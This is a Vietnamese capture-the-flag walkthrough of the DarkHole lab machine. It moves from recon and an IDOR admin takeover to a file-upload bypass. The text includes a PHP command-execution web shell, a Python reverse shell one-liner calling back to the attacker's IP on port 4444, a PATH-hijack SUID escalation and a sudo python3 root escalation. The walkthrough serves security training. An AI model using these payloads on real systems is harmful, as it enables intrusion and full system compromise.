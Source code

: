 ## Step 1
Dùng netdiscover để quét ip của máy victim ->192.168.77.251

![image](https://user-images.githubusercontent.com/97771705/224999146-d497a7b0-aa8c-44f6-afe7-c85b530bd6be.png)

Dùng nmap để quét các port tồn tại

![image](https://user-images.githubusercontent.com/97771705/224999373-f0a6423c-cfef-4f3c-8a66-f9a8722a765d.png)

Truy cập vào web darkhole

![image](https://user-images.githubusercontent.com/97771705/224999560-99cd293f-10cf-49ee-843a-a0a54dacaf31.png)

Sử dụng dirsearch, tìm thấy khá nhiều trang thú vị

![image](https://user-images.githubusercontent.com/97771705/225000326-d0af62cb-bf0d-4e34-82d0-019fa00e48e1.png)

Trang config có database.php!! -> truy cập thử nhưng không được :(

![image](https://user-images.githubusercontent.com/97771705/225001082-87b52dc9-9324-49e6-90b7-c5d8c384e3a9.png)

Quay lại trang register và login. Thử IDOR nhưng đã bị chặn

![image](https://user-images.githubusercontent.com/97771705/225001864-2588ea8b-0426-4e95-9922-5c632c07a6cb.png)

![image](https://user-images.githubusercontent.com/97771705/225001912-6d662cb8-a628-4339-beef-5d0f605ec881.png)

Thử change password. Tại burp sửa đổi sang id = 1 vẫn thành công

![image](https://user-images.githubusercontent.com/97771705/225002475-75014042-364e-436e-a72c-282b22621f71.png)

Đoán id=1 chính là admin, đăng nhập thử admin/456 -> vào được trang admin

![image](https://user-images.githubusercontent.com/97771705/225002725-e7d84d51-df93-4dcd-8154-92d8946a66c1.png)

## Step 2
Chức năng upload file chỉ cho phép upload định dạng jpg, png, gif

![image](https://user-images.githubusercontent.com/97771705/225003170-d488cebb-dd45-455f-8528-49504a606f44.png)

Tạo 1 file simple backdoor như sau 
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Lưu nó lại với tên backdoor.txt

Thử upload file và nhờ burp sửa đuôi sang php4,php5.... -> chỉ có đuôi phtml là có thể thực thi được php 

![image](https://user-images.githubusercontent.com/97771705/225006690-595521b6-c1bd-4982-8377-65e21d6ad5f9.png)

Ngoài ra file .phar cũng xài được :)

![image](https://user-images.githubusercontent.com/97771705/225007577-ea4ea1e5-0806-427f-a501-e3026a6ab651.png)

Bắt đầu reverse shell : Sử dụng payload kiếm được trên https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

> python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.128",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

Máy parrot nhập command nc -nlvp 4444, sau đó nhaapm reverse shell trên lên url

![image](https://user-images.githubusercontent.com/97771705/225012793-9b45c432-dc42-4734-a754-8b7606677afd.png)


![image](https://user-images.githubusercontent.com/97771705/225012728-786a9ddf-160b-40e5-b089-e14d2d70cdf4.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/97771705/225013005-e82b7184-424c-4aaa-a84b-02c342d90d31.png)

![image](https://user-images.githubusercontent.com/97771705/225692756-136d2f24-a5e0-42a9-a03e-2c3ea2d2abef.png)

Vào thư mục john

![image](https://user-images.githubusercontent.com/97771705/225692527-af3ad033-cce8-41e5-926c-e11564a292a2.png)

Vào thư mục .ssh, không cho ta đọc id_rsa

![image](https://user-images.githubusercontent.com/97771705/225693957-356deb89-fc99-4e11-af7b-51b3c21c5064.png)

Để ý thấy rằng file toto có set quyền SUID, thực thi file này thì ta thấy chương trình run command id với userid là 1001(john), tức là chương trình chạy command id với quyền của john

`SUID là viết tắt của Set User ID, là một thuộc tính trên các tập tin trên hệ thống Linux/Unix. Khi một tập tin được đặt thuộc tính SUID, nó được thiết lập để chạy với đặc quyền của chủ sở hữu của tập tin đó thay vì với đặc quyền của người sử dụng hiện tại.`

![image](https://user-images.githubusercontent.com/97771705/225694430-92798b9e-d0a0-4a55-83c1-db75aa299fd8.png)

Ta ghi /bin/bash vào file id tự tạo ở tmp và chèn thư mục tmp lên đầu $PATH. Khi thực thi 1 command trong Linux, hệ thống sẽ tìm kiếm lệnh trong các đường dẫn được khai báo trong biến môi trường PATH, theo thứ tự từ trái sang phải. Nếu tìm thấy lệnh ở nhiều đường dẫn trong biến môi trường PATH thì đường dẫn nào tìm thấy trước từ trái sang phải sẽ được ưu tiên hơn.

> echo '/bin/bash' > /tmp/id; chmod +x /tmp/id; export PATH=/tmp:$PATH

Flag đầu :)

![image](https://user-images.githubusercontent.com/97771705/225697086-107a6060-f30b-4933-ab69-546d93d8afe9.png)

## Step 3
Trong folder john còn 1 file password. Dùng  lệnh sudo -l để kiểm tra danh sách các quyền hạn mà user có thể thực thi bằng sudo trên hệ thống

![image](https://user-images.githubusercontent.com/97771705/225698221-caced74f-a931-4d3d-aa69-96854154a3aa.png)

Có thể thực thi file python3 bằng quyền root :) . Hơn nữa với file file.py ta có quyền write :)

Write vào file rồi run là xong rồi

> echo 'import os;os.system("/bin/bash")' > file.py

> sudo /usr/bin/python3 /home/john/file.py

![image](https://user-images.githubusercontent.com/97771705/225699477-b8795e11-45a7-4538-8df9-acf17067118c.png)



